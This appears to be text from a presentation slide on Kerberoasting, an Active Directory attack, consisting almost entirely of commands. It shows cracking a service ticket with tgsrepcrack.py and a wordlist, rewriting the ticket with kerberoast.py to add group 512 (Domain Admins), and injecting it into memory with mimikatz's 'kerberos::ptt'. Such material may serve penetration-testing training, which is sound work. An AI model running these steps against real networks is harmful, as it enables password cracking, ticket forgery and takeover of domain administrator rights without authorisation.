

Kerberos roasting
./tgsrepcrack.py wordlist.txt ticket.kirbi
./kerberoast.py -p Password1 -r ticket.kirbi -w sql.kirbi -g 512

#Then use mimikatz to put it in memory
kerberos::ptt sql.kirbi